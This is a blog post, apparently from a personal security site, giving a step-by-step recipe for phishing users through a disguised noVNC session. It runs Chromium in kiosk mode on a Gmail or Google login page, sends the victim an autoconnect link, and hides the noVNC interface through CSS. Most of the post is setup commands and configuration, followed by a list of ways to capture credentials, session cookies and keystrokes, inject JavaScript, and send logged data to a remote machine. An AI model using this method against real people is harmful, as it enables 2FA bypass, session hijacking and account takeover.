 ```yaml
---
layout: post
title: Exploiting noVNC for 2FA Bypass
date: 2025-02-07
categories: [Exploits]
tags: [Exploits, noVNC, 2FA Bypass]
permalink: /posts/Exploiting-noVNC-for-2FA-Bypass/
image:  
  path: /assets/img/thumbnails/No-VNC.png
---
```




# **Using noVNC for Credential Acquisition and Bypassing 2FA**

**noVNC** is both a **JavaScript library for VNC clients** and an application built on top of this library. Compatible with **any modern browser**, including mobile versions for iOS and Android, noVNC allows the web browser to function as a **VNC client**, enabling **remote access to a machine**.

So, how can we use noVNC to **acquire credentials** and **bypass 2FA**? Here's the process:

1. Set up a server with noVNC.
2. Start **Chromium** (or any other browser) in **Kiosk mode**.
3. Direct it to the desired website for user authentication (e.g., `accounts.google.com`).
4. Send the link to the target user. When they click the URL, they will access the **VNC session** without realizing it.
5. Since Chromium is configured in **Kiosk mode**, the user experience will appear as a normal web page.

---

## **Exploitation Possibilities**

The exploitation possibilities of this method are **vast**:

- **Inject JS** into the browser.
- Use an **HTTP proxy** connected to the browser to log all activities.
- **Terminate the VNC session** after user authentication.
- Capture the **browser session token** (Right-click > Inspect > Application > Cookies) after the user disconnects.
- Run a **background keylogger**.
- Or **get creative** and find other approaches (remember, the server is yours).

---

## **noVNC Setup and Demonstration**

### **1. Deploy a Kali Linux Instance**

Use any **cloud service provider** or deploy locally to set up a Linux machine. I will use **Kali Linux** for this demonstration because I prefer it, but you can choose any other Linux distribution you are comfortable with.

---

### **2. Install TigerVNC**

First, you need to install **VNC software**. I tested two options: **X11vnc** and **TigerVNC**. After several tests, I chose to use **TigerVNC**.

```shell
sudo apt update
sudo apt install tigervnc-standalone-server tigervnc-xorg-extension tigervnc-viewer
```

---

### **3. Set Up a VNC Password**

```shell
vncpasswd
```

On Kali Linux, I didn’t need to create the `xstartup` file, but if you encounter any errors, you can configure it manually.

```shell
nano ~/.vnc/xstartup
```

Paste or write the following:

```bash
#!/bin/sh
xrdb "$HOME/.Xresources"
xsetroot -solid grey
x-terminal-emulator -geometry 80x24+10+10 -ls -title "$VNCDESKTOP Desktop" &
x-window-manager &
# Fix to make GNOME work
export XKL_XMODMAP_DISABLE=1
/etc/X11/Xsession
```

Add execution permissions:

```shell
chmod +x ~/.vnc/xstartup
```

---

### **4. Restart the VNC Server**

Restart the VNC server, choosing the **screen size settings** according to your needs. noVNC automatically adjusts to the browser's screen size, but do your own testing.

```shell
vncserver -depth 32 -geometry 1920x1080
```

---

### **5. Download and Run noVNC**

```shell
git clone https://github.com/novnc/noVNC.git
```

OR

```shell
apt install novnc
```

Now run noVNC **locally** or **publicly**. Here are the commands:

- **Check the VNC server port:**

```shell
vncserver -list
```

Example: `5901`, `5902`, `5903`, etc.

- **Run noVNC:**

```shell
./noVNC/utils/novnc_proxy --vnc localhost:5901
```

- **Set up an SSH tunnel:**

```shell
ssh -L 6080:127.0.0.1:6080 root@server
```

- **Run publicly using port 8081:**

```shell
ufw allow http
./noVNC/utils/novnc_proxy --vnc 0.0.0.0:5901 --listen 8081
```

---

### **6. Access VNC and Run the Browser in Kiosk Mode**

Access your VNC and run the browser in **Kiosk mode**. I used **Chromium**, but you can use whatever suits your needs.

```shell
chromium --no-sandbox --app=https://gmail.com --kiosk
```

---

### **7. Send the URL to the "Victim" to Connect Automatically**

```shell
http://127.0.0.1:6080/vnc.html?autoconnect=true&password=YOUR-PASSWORD
```

The `autoconnect=true&password=VNCPASSWORD` will make the user authenticate automatically. If you want to rename the query parameter, you can modify the `vnc.html` file.

---

### **8. Modify the CSS to Remove Visual Elements**

noVNC displays a **custom loading page**, a **VNC control bar**, and some additional unnecessary visual elements that should be removed.

Open `vnc.html`, find the `divs` below, and add the CSS style shown.

```html
<!-- Hide unnecessary items -->
<div id="noVNC_control_bar_anchor" class="noVNC_vcenter" style="display:none;">
<div id="noVNC_status" style="display:none"></div>

<!-- Makes the loading page white -->
<div id="noVNC_transition" style="background-color:white;color:white">
```

---

## **Important Notes**

- **You are giving remote access to your machine!** It should not have anything valuable stored on it.
- Any logged data should likely be sent to a **remote machine**.
- **Do not use the root account.** Set up a restricted user account that uses the VNC service.
- Configure the **Kiosk mode** more restrictively.
